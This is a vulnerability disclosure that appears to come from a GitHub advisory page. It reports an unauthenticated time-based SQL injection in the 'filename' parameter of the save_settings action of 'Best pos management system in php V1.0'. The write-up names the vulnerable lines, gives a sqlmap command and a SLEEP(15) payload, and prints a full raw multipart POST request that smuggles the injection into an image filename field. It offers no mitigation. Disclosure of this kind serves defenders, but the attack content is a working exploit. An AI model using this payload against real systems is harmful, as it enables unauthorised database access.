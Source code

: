 # Best pos management system in php V1.0 - SQL injection vulnerability

### You do not need to log in and open the website storage directory

Supplier:https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

http://localhost/ajax.php?action=save_settings   -----> POST request ----->  'filename' can control some file name parameters

Vulnerability location: admin_class.php in the root directory of the website. Triggered by the save_settings function in ajax.php

Web function point, after logging into the background, System Settings ->Image

Note: Triggering this vulnerability does not require logging in.

![1](/img/Best-pos-management-system-in-php/8.png)

Location of SQL injection vulnerabilities in source code: Lines 165 to 174 in admin_class.php under the root directory.

![2](/img/Best-pos-management-system-in-php/7.png)

Sqlmap Payload:sqlmap -r post2 --dbms=mysql -v 3

![3](/img/Best-pos-management-system-in-php/6.png)

Note: I added * after the 'filename' parameter in POST2 to tell sqlmap where to inject the parameter, which is not shown in the figure

The injection point occurs in the 'filename' parameter of the post request package

Payload:shell.png' AND (SELECT 7769 FROM (SELECT(SLEEP(15)))a) AND '1'='1

POST:
```
POST /ajax.php?action=save_settings HTTP/1.1
Host: www.kruxton.com:8083
Content-Type: multipart/form-data; boundary=---------------------------988021490109555064829866363
Content-Length: 718

-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="name"

2
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="email"

3@qq.com
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="contact"

3
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="about"

111
-----------------------------988021490109555064829866363
Content-Disposition: form-data; name="img"; filename="shell.png' AND (SELECT 7769 FROM (SELECT(SLEEP(15)))a) AND '1'='1"
Content-Type: image/png

222
-----------------------------988021490109555064829866363--
```

give the result as follows

![4](/img/Best-pos-management-system-in-php/10.png)

Successfully triggered a delay of about 15 seconds!